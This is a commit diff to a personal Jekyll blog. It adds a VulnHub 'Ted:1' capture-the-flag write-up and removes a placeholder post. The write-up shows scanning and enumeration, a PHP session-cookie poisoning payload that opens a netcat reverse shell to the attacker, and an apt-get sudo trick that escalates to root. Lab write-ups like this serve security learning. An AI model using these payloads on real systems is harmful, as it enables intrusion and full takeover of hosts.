

Before and after one commit to iamnasef/0xnasef.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the top 636 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Fist Post

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -3,7 +3,7 @@ author: Muhammad Nasef
 email: muhammadelnasef@gmail.com
 description: Muhammad Nasef | Application Security Engineer
 show_excerpts: true # set to true to show excerpts on the homepage
-
+permalink: /blog/:title/
 # Minima date format
 # refer to http://shopify.github.io/liquid/filters/date/ if you want to customize this
 sass:
--- a/_posts/2019-03-23-welcome-to-jekyll.markdown
+++ /dev/null
@@ -1,28 +0,0 @@
----
-layout: post
-title:  "Integrating razorpay into your webapp"
-date:   2019-03-23 21:03:36 +0530
-categories: Javascript NodeJS
----
-Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse
-
-```javascript
-const Razorpay = require('razorpay');
-
-let rzp = Razorpay({
-	key_id: 'KEY_ID',
-	secret: 'name'
-});
-
-// capture request
-rzp.capture(payment_id, cost)
-	.then(function (data) {
-		return 2;
-	})
-```
-
-Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].
-
-[jekyll-docs]: https://jekyllrb.com/docs/home
-[jekyll-gh]:   https://github.com/jekyll/jekyll
-[jekyll-talk]: https://talk.jekyllrb.com/
--- /dev/null
+++ b/_posts/2020-09-24-VH_Ted.markdown
@@ -0,0 +1,124 @@
+---
+layout: post
+title:  "Ted:1 Vulnhub Writeup"
+date:   2020-09-24 15:00:00 +0530
+categories: VulnHub CTF
+---
+Ted:1 is a machine in which I used Local File Inclusion Vulnerability to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.
+
+## Scanning
+As always I started scanning with nmap
+
+```
+nmap -sV -sC 192.168.198.136
+Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 09:58 EDT
+Nmap scan report for 192.168.198.136
+Host is up (0.00077s latency).
+Not shown: 999 closed ports
+PORT   STATE SERVICE VERSION
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
+|_http-server-header: Apache/2.4.18 (Ubuntu)
+|_http-title: Login
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
+
+```
+Port 80 is the only opened port.
+## Web Enumeration
+Then I enumerated directories and files using gobuster
+
+```
+gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.136 -x html,php
+===============================================================
+Gobuster v3.0.1
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
+===============================================================
+[+] Url:            http://192.168.198.136
+[+] Threads:        10
+[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Status codes:   200,204,301,302,307,401,403
+[+] User Agent:     gobuster/3.0.1
+[+] Extensions:     html,php
+[+] Timeout:        10s
+===============================================================
+2020/09/24 09:58:18 Starting gobuster
+===============================================================
+/index.php (Status: 200)
+/home.php (Status: 302)
+/logout.php (Status: 302)
+/cookie.php (Status: 302)
+/authenticate.php (Status: 302)
+/server-status (Status: 403)
+===============================================================
+2020/09/24 09:59:06 Finished
+===============================================================
+```
+An intersting file is cookie.php , although it didn't help me to get a shell but it gave me a hint about using cookie with LFI to gain a shell.
+## Brute forcing
+I found a login form in index.php, So I tried SQLmap to test for SQL injection but the form isn't vulnerable to it.
+Then, I started testing with inputs and error messages and it was fruitful. The error messages gave me hints about the the correct username and correct password then the correct hashing algorithm. You can see the diffrence below.
+
+### Username guessing
+![Username](/assets/machines/vulnhub/ted/1.png)
+
+### Password guessing
+![Password](/assets/machines/vulnhub/ted/2.png)
+
+### Hashing Algorithm guessing
+![Hash](/assets/machines/vulnhub/ted/3.png)
+
+The correct username is admin and the correct password is hash sha256 of word admin
+
+
+## Local File Inclusion
+When I typed /etc/passwd it retrived the conent of the file, so it's clearly a LFI vulnerability.
+![Hash](/assets/machines/vulnhub/ted/4.png)
+
+
+
+After many attemps like reading /etc/shadow and Log poisoning via apache logs, I found a suspicous cookie. so I tried to change it's value and access /var/lib/php/sessions/sess_ via the browser and it worked !
+![Hash](/assets/machines/vulnhub/ted/5.png)
+
+Immediately  I changed the cookie value to
+
+```
+<?php system("nc [ip] 9999 -e /bin/sh")?>
+```
+
+but Url encoded as
+```
+%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%39%39%39%39%20%5b%69%70%5d%20%2d%65%20%2f%62%69%6e%2f%73%68%22%29%3f%3e
+```
+and started listening in my machine and refreshed the page. I got a shell!
+```
+root@kali:/home/kali# nc -lvnp 9999
+listening on [any] 9999 ...
+connect to [192.168.198.137] from (UNKNOWN) [192.168.198.136] 57674
+whoami
+www-data
+```
+
+## Privilege Escalation
+I ran sudo -l and noticed that I can run apt-get as a root without password (SUDO).
+
+```
+sudo -l
+Matching Defaults entries for www-data on ubuntu:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
+
+User www-data may run the following commands on ubuntu:
+    (root) NOPASSWD: /usr/bin/apt-get
+
+```
+
+So imediatly I went to https://gtfobins.github.io/ and got the following command
+which abuses the sudo priv given to the binary apt-get
+
+```
+sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
+whoami
+root
+```
+and voila here is the root privilege!
````
Also changed, not shown: assets/machines/vulnhub/ted/1.png (added), assets/machines/vulnhub/ted/2.png (added), assets/machines/vulnhub/ted/3.png (added), assets/machines/vulnhub/ted/4.png (added), assets/machines/vulnhub/ted/5.png (added).
